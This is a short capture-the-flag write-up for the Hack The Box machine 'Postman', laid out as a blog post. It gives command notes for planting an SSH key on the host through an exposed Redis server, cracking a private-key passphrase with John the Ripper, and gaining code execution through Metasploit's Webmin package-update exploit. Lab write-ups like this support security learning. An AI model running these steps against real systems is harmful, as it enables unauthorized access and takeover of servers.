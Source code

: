 ```yaml
---
categories:
- CTF
layout: post
media_subpath: /assets/posts/2020-03-14-postman-hackthebox
tags:
- hackthebox
- linux
- metasploit
- redis
- webmin
title: Postman @ HackTheBox
---
```


Postman is a 20-point machine on hackthebox, that involves using redis to write an ssh key to disk, cracking the password of a private key and exploiting a webmin vulnerability with metasploit.


## Notes

Redis:

```
ssh-keygen
echo -e '\n\n' >> blob.txt
cat redis.pub >> blob.txt
echo -e "\n\n" >> blob.txt
```

```
CONFIG SET dir "/var/lib/redis/.ssh"
CONFIG SET dbfilename "authorized_keys"
flushall
exit
```

```
cat blob.txt | redis-cli -h postman.htb -x set ssh
redis-cli -h postman.htb save
```

```
ssh -i redis redis@postman.htb
```

John:

```
ssh2john.py matt | tee matt.hash
john --wordlist=rockyou.txt matt.hash
```

Metasploit:

```
msf: search webmin, use exploit/linux/http/webmin_packageup_rce
msf5 exploit(linux/http/webmin_packageup_rce) > set PASSWORD computer2008
msf5 exploit(linux/http/webmin_packageup_rce) > set RHOSTS postman.htb
msf5 exploit(linux/http/webmin_packageup_rce) > set USERNAME Matt
msf5 exploit(linux/http/webmin_packageup_rce) > set LHOST <ip>
```